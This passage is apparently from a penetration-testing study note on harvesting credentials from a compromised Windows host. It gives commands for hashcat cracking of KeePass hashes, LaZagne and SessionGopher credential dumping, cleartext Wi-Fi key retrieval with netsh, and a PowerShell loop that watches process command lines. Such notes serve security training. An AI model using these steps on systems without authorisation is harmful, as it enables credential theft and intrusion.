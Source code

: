 Now we can use the 13400 mode from hashcat:
```console
zero@pio$ hashcat -m 13400 keepass_hash <WORDLIST>
```

### Email

We can use some tool like [MailSniper](https://github.com/dafthack/MailSniper).

### LaZagne 

[This](https://github.com/AlessandroZ/LaZagne) tool could help us:
```console
PS C:\zeropio> .\lazagne.exe all
```

### SessionGopher

[This](https://github.com/Arvanaghi/SessionGopher) tool extract saved PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP credentials:
```console
PS C:\htb> .\SessionGopher.ps1
PS C:\Tools> Invoke-SessionGopher -Target <COMPUTER NAME>
```

### Wifi Passwords 

If we obtain local admin access to a user's workstation with a wireless card, we can list out any wireless networks they have recently connected to:
```console
C:\zeropio> netsh wlan show profile
```

Depending on the network configuration, we can retrieve the pre-shared key:
```console
C:\zeropio> netsh wlan show profile <USER PROFILE> key=clear
```

---

# Additional Techniques 

## Interacting with Users 

If Wireshark is installed, unprivileged users may be able to capture network traffic. If Wirehsark is installed on a box that we land on, it is worth attempting a traffic capture to see what we can pick up. We can also use the [net-creds](https://github.com/DanMcInerney/net-creds). 

When getting a shell as a user, there may be scheduled tasks or other processes being executed which pass credentials on the command line. We can look for process command lines using something like this script:
```
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}
```
